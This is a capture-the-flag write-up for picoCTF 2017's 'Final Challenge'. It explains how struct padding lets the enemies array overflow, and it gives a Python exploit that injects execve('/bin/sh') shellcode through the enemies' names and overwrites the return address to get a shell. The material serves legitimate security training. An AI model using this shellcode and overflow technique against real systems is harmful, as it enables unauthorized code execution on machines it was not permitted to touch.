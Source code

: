 # Final Challenge - 150 Points

Unhappy that you can't choose which enemies to fight? [Choose](https://webshell2017.picoctf.com/static/6af7ca160d078a41f5ee39299fa4cb71/choose) your own adventure. [Source](https://webshell2017.picoctf.com/static/6af7ca160d078a41f5ee39299fa4cb71/choose.c). Connect on shell2017.picoctf.com:4463. ASLR is not enabled.

## Write-up
This problem is basically some sort of attack simulation game, where you and an opponent each take one turn to fight to the death. You get to choose 11 enemies and then you have to fight the dragon, which is unbeatable. There were several small bugs, but one was able to let you run arbitrary code. The `struct` definitions represented each type of opponent you would fight. 

However, there were two of them where the `health` and `damange` fields are flipped (for `centaur` and `unicorn`). By itself, it doesn't cause any other issues, but because of [padding](http://stackoverflow.com/q/4306186/7344257) what we end up is 4 extra bytes for `centaur` and `unicorn` structs. This allows us to overflow the `enemies` array just enough to overwrite the return address. Since ASLR was not enabled, and also the stack is set as executable, we could write shellcode on the stack, and then change the return address to point to this stack. We write to stack via the enemies' names, and we get shell! We can also use the 'wizard sight' to easily get address of the stack. Here's the python code we used:

```python
#[Segment I]
#mov eax, -11
#neg eax
#xor edx, edx
#jmp 0x0D ; use byte form of assembly

#[Segment II]
#mov ebx, 0xFFFFD5DA
#push edx
#push ebx
#mov ecx, esp
#int 0x80

monsters = "c" + "\nc" * 9 + "\no" # create monsters to fight
seg1 = "\n\xB8\xF5\xFF\xFF\xFF\xF7\xD8\x31\xD2\xEB\x0D" # first segment of shellcode, jmp to next segment.
seg2 = "\n\xBB\xDA\xD5\xFF\xFF\x52\x53\x89\xE1\xCD\x80" # second segment of shellcode
bin = "\n/bin/sh" # shell
blanks = "\nh" * 7 # blank names
bof = "\naaaa\xaa\xd5\xff\xffxxxx" # bof exploit to overwrite return address
print(monsters + seg1 + seg2 + bin + blanks + bof + "\na"*38) # print and exploit!
```

## Helpful Resources
[http://stackoverflow.com/q/4306186/7344257](http://stackoverflow.com/q/4306186/7344257)